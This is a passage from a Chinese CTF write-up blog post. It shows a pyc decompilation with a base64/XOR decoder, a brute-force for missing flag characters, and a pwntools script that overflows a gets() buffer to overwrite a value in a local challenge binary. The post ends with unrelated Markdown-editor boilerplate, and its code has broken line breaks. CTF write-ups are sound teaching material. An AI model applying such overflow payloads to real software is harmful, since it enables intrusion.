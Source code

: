 flag：flag{read_asm_is_the_basic}

找一个在线pyc反编译网站：https://tool.lu/pyc/

反编译出来写一个解密函数

```
def de(message): message = message.decode("base64") s = '' for i in message:  x = (ord(i)-32) ^ 32  print(chr(x)) return s
```

但是这样出来结果不对：nctf{d3c0mpil1n9y}

有三个不可见字符，考虑一下爆破

```
import stringdic = string.printable[:-6]for i1 in dic: for i2 in dic:  for i3 in dic:   str1 = "nctf{d3c0mpil1n9" + i1 + i2 + "y" + i3 + "}"   if encode(str1) == correct:    print(str1)
```

得到结果

flag：nctf{d3c0mpil1n9_PyC}

思路就是利用gets函数覆盖生日值，方法下载脚本里了，需要用到pwntools

```
from pwn import  *conn = process("./test") payload = 'a'*8 + p32(1926)    conn.recvuntil("What\'s Your Birth?\n")conn.sendline("11")conn.recvuntil("What\'s Your Name?\n")conn.sendline(payload)conn.interactive()
```

应该是这样的，环境挂了，改天看看flag是什么

**最后的话。。**

往上面传图片是个累活。。

然后还剩：Vigenere

希望大神可以帮忙看看，给点思路。。** 

**感谢小伙伴            **

****![这里写图片描述](img/2e19ffb3303a490d20ea5d00dd397156.png)**

**你好！ 这是你第一次使用 **Markdown编辑器** 所展示的欢迎页。如果你想学习如何使用Markdown编辑器, 可以仔细阅读这篇文章，了解一下Markdown的基本语法知识。**

## **新的改变**

 **我们对Markdown编辑器进行了一些功能拓展与语法支持，除了标准的Markdown编辑器功能，我们增加了如下几点新功能，帮助你用它写博客：

1.  **全新的界面设计** ，将会带来全新的写作体验；
2.  在创作中心设置你喜爱的代码高亮样式，Markdown **将代码片显示选择的高亮样式** 进行展示；
3.  增加了 **图片拖拽** 功能，你可以将本地的图片直接拖拽到编辑区域直接展示；
4.  全新的 **KaTeX数学公式** 语法；
5.  增加了支持**甘特图的mermaid语法** 功能；
6.  增加了 **多屏幕编辑** Markdown文章功能；
7.  增加了 **焦点写作模式、预览模式、简洁写作模式、左右区域同步滚轮设置** 等功能，功能按钮位于编辑区域与预览区域中间；
8.  增加了 **检查列表** 功能。
